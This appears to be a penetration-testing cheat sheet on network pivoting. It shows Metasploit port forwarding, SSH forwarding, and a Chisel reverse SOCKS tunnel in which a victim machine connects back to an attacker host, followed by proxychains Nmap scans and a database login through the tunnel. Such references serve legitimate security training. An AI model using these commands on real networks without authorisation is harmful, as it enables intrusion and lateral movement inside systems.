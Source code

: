 ### PORT FORWARDING WITH METASPLOIT
To forward a specific port (e.g., port 80):
``` bash
portfwd add -l <your_port> -p 80 -r <victim_ip>
```
Then attack the forwarded port locally.

### ACCESSING LOCALHOST SERVICES
Use SSH to expose internal services:
```bash
ssh -g -L 0.0.0.0:8081:localhost:8080 user@localhost
```
Then forward the port (e.g., 8081) using `portfwd`.

### CONNECTING TO SSH THROUGH ROUTING
Background the session with `Ctrl+Z`, search for the `ssh_login` module, and configure it for the desired target.

## CHISEL FOR PIVOTING (Strict SOCKS Mode)
---
Chisel is a fast TCP/UDP tunnel, transported over HTTP/2, that allows you to create a secure and reliable tunnel through firewalls or NATs. It is commonly used for pivoting, allowing attackers to bypass network restrictions and gain access to internal systems. Chisel is lightweight and supports multiple connections, making it a useful tool for penetration testers and red teamers when tunneling traffic between machines. Download it <a href="https://github.com/jpillora/chisel" target="_blank">here</a>

### Attacker Machine:
Start the Chisel reverse server:
```bash 
chisel server --reverse -p 8000
```

### Victim Machine:
Run the following command:
```bash 
chisel client <ATTACKER_IP>:8000 R:socks
```

### Proxy Configuration:
Edit `/etc/proxychains4.conf`, uncomment the `strict_chain` section, and add:
```bash 
socks5 127.0.0.1 1080
```

### Using Nmap Through the Tunnel:
```bash 
proxychains nmap -sT -Pn --top-ports 5000 -open -T5 -v -n <IP> 2>/dev/null
```
### Connecting into database through the tunnel:
```bash
proxychains4 mysql -u wp_user -p -h 172.17.0.1 wordpress --ssl=0
```
### Accessing HTTP in Browser:
Configure FoxyProxy with a new SOCKS5 proxy on port 1080.
